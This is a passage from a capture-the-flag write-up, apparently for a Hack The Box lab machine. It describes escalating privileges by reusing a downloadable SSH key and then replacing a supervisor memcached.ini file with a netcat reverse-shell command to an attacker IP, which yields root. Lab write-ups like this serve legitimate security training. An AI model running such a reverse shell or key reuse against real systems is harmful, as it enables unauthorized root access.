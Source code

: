 ## Privilege Escalation

During enumeration of `berlin`'s account, I chanced upon the fact that `berlin`'s SSH key pair is available for download.


{% include image.html image_alt="feed4d9a.png" image_src="/3a3c2bb2-c138-4b2b-b4bf-81b283be2d8a/feed4d9a.png" %}


Needless to say, I went ahead to download the key pair. Now, this is where I was stucked for a while. Who would have guessed that `berlin`'s key can log in to `professor`'s SSH account when you have no access to `professor`'s `.ssh/authorized_keys`? Not unless you watch the TV show and know the relationship between Professor and Berlin.

Once you can obtain a shell as `professor`, the rest is easy...

You'll notice the presence of read-only file `memcached.ini` in `professor`'s home directory. Heck, it's `professor`'s turf right? He can remove any file and recreate his own!

```
echo y | rm memcached.ini; echo "[program:memcached]" > memcached.ini; echo "command = sudo /usr/bin/nc 10.10.14.20 1234 -e /bin/bash" >> memcached.ini
```

A minute later, a root shell pops up and the rest is history...


{% include image.html image_alt="84b22297.png" image_src="/3a3c2bb2-c138-4b2b-b4bf-81b283be2d8a/84b22297.png" %}


:dancer:

## Afterthought

It doesn't have to be `memcached.ini`, you know. Any `ini` file will do because of this.


{% include image.html image_alt="97e7d4aa.png" image_src="/3a3c2bb2-c138-4b2b-b4bf-81b283be2d8a/97e7d4aa.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/181
[2]: https://www.hackthebox.eu/home/users/profile/4615
[3]: https://www.hackthebox.eu/
